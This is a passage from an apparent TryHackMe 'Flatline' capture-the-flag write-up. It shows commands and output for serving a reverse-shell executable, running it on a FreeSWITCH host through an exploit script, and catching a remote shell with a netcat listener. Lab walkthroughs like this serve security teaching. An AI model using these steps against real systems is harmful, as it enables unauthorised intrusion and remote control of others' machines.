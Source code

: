 Don’t forget to open the port on the local machine to transfer the file

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ sudo python3 -m http.server 8080
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.57.92 - - [03/Jul/2023 05:06:28] "GET /revShell.exe HTTP/1.1" 200 -
10.10.57.92 - - [03/Jul/2023 05:06:29] "GET /revShell.exe HTTP/1.1" 200 -
```

*Note: Another way is using `nc -lvnp <PORT>`  and `systemctl start apache2`*

Verify that the reverse shell has been transfer and placed on the current directory

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "dir"   
Authenticated
Content-Type: api/response
Content-Length: 2395

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Program Files\FreeSWITCH

[REDACTED]
03/07/2023  10:07            73,802 revShell.exe
09/11/2021  08:22    <DIR>          run
09/11/2021  08:22    <DIR>          scripts
[REDACTED]
```

Execute it

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "revShell.exe"
Authenticated
```

Remember to start the `Netcat Listener` at first!

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.57.92] 49826
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\FreeSWITCH>whoami
whoami
win-eom4pk0578n\nekrotic
```
